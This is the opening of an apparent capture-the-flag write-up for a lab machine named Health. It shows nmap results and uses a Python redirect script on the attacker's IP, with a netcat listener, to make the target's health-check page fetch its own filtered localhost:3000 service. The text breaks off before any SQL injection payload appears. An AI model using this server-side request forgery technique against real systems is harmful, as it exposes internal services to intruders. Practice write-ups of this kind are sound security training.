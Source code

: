![image](https://user-images.githubusercontent.com/105310322/194118518-d3bfb867-a11d-4800-80b0-a4fcc96a6e7e.png)

### Tools: Redirect.py, Burpsuite, Hashcat, Mysql

### Vulnerabilities: URL Redirect, SQLI Union Select: WAF bypass, Salted Hash, Mysql task from webhook

Nmap reveals ssh, a webpage and a filtered port 3000.

```console
└─$ nmap -A -p- -T4 -Pn 10.129.61.202
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 12:08 CDT
Nmap scan report for 10.129.61.202
Host is up (0.038s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32:b7:f4:d4:2f:45:d3:30:ee:12:3b:03:67:bb:e6:31 (RSA)
|   256 86:e1:5d:8c:29:39:ac:d7:e8:15:e6:49:e2:35:ed:0c (ECDSA)
|_  256 ef:6b:ad:64:d5:e4:5b:3e:66:79:49:f4:ec:4c:23:9f (ED25519)
80/tcp   open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HTTP Monitoring Tool
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.07 seconds

```

The webpage is a health check site for checking any webpage. I tried a few things but the way to go was to access the port 3000 site that was running off their local host. Trying to check their localhost:3000 returns an error that it is not allowed.


![image](https://user-images.githubusercontent.com/105310322/194422971-3e1a3fe7-ae24-4551-a31e-ccecc0f3e0e6.png)



So to get around this problem we need to redirect to the url through health.htb. The link below is for a simple python script to redirect.

```https://gist.github.com/shreddd/b7991ab491384e3c3331```

After setting up the redirect dont forget to set up the nc listner to catch the page.

```console
└─$ python2 redirect.py --port 80 --ip 10.10.16.19 http://127.0.0.1:3000
serving at port 80
10.129.61.202 - - [05/Oct/2022 14:22:23] "GET / HTTP/1.0" 301 -
```

Next we input the following into the fields on the webpage.
